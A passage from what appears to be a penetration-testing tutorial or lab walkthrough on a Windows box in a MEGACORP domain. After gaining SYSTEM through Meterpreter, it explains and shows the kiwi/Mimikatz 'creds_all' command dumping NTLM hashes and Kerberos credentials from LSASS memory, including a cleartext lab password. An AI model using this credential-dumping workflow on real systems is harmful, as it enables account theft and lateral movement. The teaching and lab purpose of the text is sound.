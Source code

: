 ```bash
C:\inetpub\wwwroot\wordpress\wp-content\plugins\dBPEarcLsr>exit
meterpreter > sessions 3
[*] Backgrounding session 2...
[*] Starting interaction with 3...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Finding User Credentials

Now that we have administrator privileges, we can do some more discovery to look for any other useful information on the box, in particular, other user accounts and their passwords.

We will come back to this later in the book and deal with it in more details but what you will do is take advantage of a module that Meterpreter allows us to run called _**kiwi**_ that is the module that runs _**Mimikatz**_ commands. Mimikatz is a program that has been designed to search for and collect credentials on Windows from a number of different places where these are commonly stored. These include the two main sources:

* Passwords stored in memory. Mimikatz looks for passwords that may be in the memory of the _**Local Security Authority Subsystem Service**_ (_**LSASS**_) process
* Kerberos: Using an API to access Kerberos credentials (tickets) again from memory

To run Kiwi, you type “load kiwi” and then “creds\_all”. From this, you can see the user “sandra” has the password “Password1234!” which has been extracted from Kerberos running on the machine.

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============
Username Domain NTLM SHA1 DPAPI
-------- ------ ---- ---- -----
SHIELD$ MEGACORP 9d4feee71a4f411bf92a86b523d64437 0ee4dc73f1c40da71a
                 60894eff504cc732de82da
sandra MEGACORP 29ab86c5c4d2aab957763e5c1720486d 8bd0ccc2a23892a74df
                 bbbb57f0faa9721562a38 f4c73b3f07c4f309ebf086644254bcbc
wdigest credentials
===================
Username Domain Password
-------- ------ --------
(null) (null) (null)
SHIELD$ MEGACORP (null)
sandra MEGACORP (null)
kerberos credentials
====================
Username Domain Password
-------- ------ --------
(null) (null) (null)
IUSR NT AUTHORITY (null)
SHIELD$ MEGACORP.LOCAL cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,
                 AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@
                 -a+qJt_l887Ew&m_ewr??#VE&
sandra MEGACORP.LOCAL Password1234!

shield$ MEGACORP.LOCAL cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,
                 AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@
                 -a+qJt_l887Ew&m_ewr??#VE&
```
